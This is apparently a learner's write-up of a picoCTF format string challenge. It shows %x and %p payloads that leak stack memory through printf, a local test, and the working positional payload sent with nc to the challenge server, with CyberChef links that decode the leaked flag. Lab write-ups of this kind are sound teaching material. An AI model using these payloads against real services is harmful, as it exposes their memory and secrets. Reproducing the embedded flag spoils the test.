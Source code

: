 # Lesson  
- Format String Attack  
  - vulnerability of `printf()` and the kind of the function of `c`  
    "%x" and "%p" can extract a value on stack.  
    - input examples
      ```
      # simple
      %x%x%x%x
      > ffaa0340f7d7f374804934678257825

      %X%X%X%X
      > FF8F8700F7D7D374804934658255825

      %p%p%p%p
      > 0xffac59600xf7ce93740x80493460x70257025

      # beautify with some characters as delimeter
      %x.%x***%x
      > ffc56130.f7d03374***8049346

      # padding
      > %08x.%08x.%08x
      ffbb0560.f7d61374.08049346

      > %x.%x.%x
      ffe1ae40.f7cf2374.8049346

      # select stack index
      %36$p.%37$p.%38$p.%39$p
      > 0x6620796d.0x2067616c.0x68616579.0xa686868

      %p.%p.%p.%p
      > 0xffb54580.0xf7c99374.0x8049346.0x252e7025

      # select stack index and padding
      %36$08x.%37$08x.%38$08x.%39$08x
      > 6620796d.2067616c.68616579.0a686868
      ```
  - https://zenn.dev/ri5255/scraps/852f4e4a26965c  
  - https://note.com/zk_phi/n/nc77f077017d7

# Memo
1. prepare a flag file for local test 
    ```zsh
    $ touch flag.txt
    $ echo "my flag yeahhhh" > flag.txt
    ```

2. test on local  
    The content of my flag is described like this.  
    ```
    my flag yeahhhh
    6d 79 20 66 6c 61 67 20 79 65 61 68 68 68 68
    ```
    I can't find the flag hex at the beginning.
    ```
    %x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
    > ffd064f0.f7ccd374.8049346.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78.f7f45000.8048338.804c034.d.f7f45000
    ```
    Then I found the hex strings around "$ESP + 36 * 4 byte".  
    However the input size is limited, so I save the number of input characters like this.  
    For the next decoding, I also add padding characters - "08".  
    ```
    %36$08x.%37$08x.%38$08x.%39$08x.%40$08x.%41$08x.%42$08x.%43$08x.%44$08x.%45$08x.%46$08x.%47$08x.%48$08x
    > 6620796d.2067616c.68616579.0a686868.f7d08e00.0804c000.fff57d24.f7f84b80.fff57c58.f7f61004.f7f269b4.b758cf00.000003e8
    ```

3. test decode with `CyberChef`  
    [recipe](https://gchq.github.io/CyberChef/#recipe=Swap_endianness('Hex',4,false)From_Hex('Auto')&input=NjYyMDc5NmQuMjA2NzYxNmMuNjg2MTY1NzkuMGE2ODY4NjguZjdkMDhlMDAuMDgwNGMwMDAuZmZmNTdkMjQuZjdmODRiODAuZmZmNTdjNTguZjdmNjEwMDQuZjdmMjY5YjQuYjc1OGNmMDAuMDAwMDAzZTg)

4. exploit
    ```zsh
    $ nc saturn.picoctf.net 57404
    Tell me a story and then I'll tell you one >> %36$08x.%37$08x.%38$08x.%39$08x.%40$08x.%41$08x.%42$08x.%43$08x.%44$08x.%45$08x.%46$08x.%47$08x.%48$08x
    Here's a story -
    6f636970.7b465443.6b34334c.5f676e31.67346c46.6666305f.3474535f.395f6b63.30366635.7d373136.fbad2000.2146c300.00000000
    ```

5. decode with `CyberChef`  
    [recipe](https://gchq.github.io/CyberChef/#recipe=Swap_endianness('Hex',4,false)From_Hex('Auto')&input=NmY2MzY5NzAuN2I0NjU0NDMuNmIzNDMzNGMuNWY2NzZlMzEuNjczNDZjNDYuNjY2NjMwNWYuMzQ3NDUzNWYuMzk1ZjZiNjMuMzAzNjY2MzUuN2QzNzMxMzYuZmJhZDIwMDAuMjE0NmMzMDAuMDAwMDAwMDA)